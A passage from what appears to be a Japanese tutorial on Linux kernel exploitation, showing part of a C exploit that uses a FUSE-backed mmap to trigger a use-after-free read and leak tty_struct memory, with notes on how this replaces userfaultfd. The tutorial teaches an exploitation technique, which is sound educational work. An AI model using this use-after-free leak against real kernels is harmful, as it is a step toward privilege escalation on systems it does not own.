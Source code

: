 ```c
              MAP_PRIVATE, pwn_fd, 0);
  if (page == MAP_FAILED) fatal("mmap");

  /* tty_structと同じサイズのデータ設定 */
  buf = (char*)malloc(0x400);
  victim = add(buf, 0x400);
  set(victim, "Hello", 6);

  /* [1-1] UAF Read: tty_structのリーク */
  get(victim, page, 0x400);
  for (int i = 0; i < 0x80; i += 8) {
    printf("%02x: 0x%016lx\n", i, *(unsigned long*)(page + i));
  }

  return 0;
}
```
[前章](uffd.html)のコードと比べると、構造が非常に似ていることが分かります。このように、FUSEはuserfaultfdの代替策として、exploitに使える場合があります。コードを動かすと、`tty_struct`の一部がリークできていることが分かります。

<center>
  <img src="img/fuse_uaf_read.png" alt="UAF Read" style="width:280px;">
</center>

userfaultfdの時と同様に、`copy_to_user`を大きいサイズで呼んでいるため、データの先頭はリークできていません。これに関しては、前回と同じく小さいサイズのリークにより解決できます。


[^1]: ユーザー空間で仮想的にキャラクタデバイスを登録するCUSEという仕組みもあります。